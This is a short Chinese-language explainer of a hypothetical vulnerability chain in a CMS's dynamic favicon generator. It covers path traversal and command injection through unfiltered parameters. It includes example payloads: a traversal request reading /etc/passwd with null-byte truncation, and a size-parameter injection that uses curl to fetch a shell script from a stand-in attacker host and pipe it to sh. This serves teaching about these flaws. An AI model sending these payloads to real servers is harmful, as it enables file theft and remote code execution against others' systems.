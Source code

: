 动态生成 Favicon 的参数注入 + 路径遍历
假设场景
某流行 CMS（如 WordPress 插件或自定义框架）提供动态生成 favicon.ico 的功能，允许用户通过参数自定义图标（如颜色、文字），但未对输入参数进行严格过滤。
漏洞利用链
参数注入导致路径遍历
请求示例：
GET /favicon.ico?color=red&text=../../../../etc/passwd%00
若后端拼接参数时直接构造文件路径（如从 /static/icons/<text>.png 读取），攻击者可能通过 ../ 跳转目录，结合 %00 截断绕过扩展名限制，读取敏感文件。
动态命令执行
若服务端使用命令行工具生成图标（如 ImageMagick 的 convert），未过滤参数可能导致 命令注入：
http
复制
GET /favicon.ico?size=100x100;curl${IFS}attacker.com/shell.sh|sh;
服务端代码可能拼接如下命令：
convert -size {size} xc:white favicon.ico
注入的 size 参数可触发远程代码执行（RCE）。
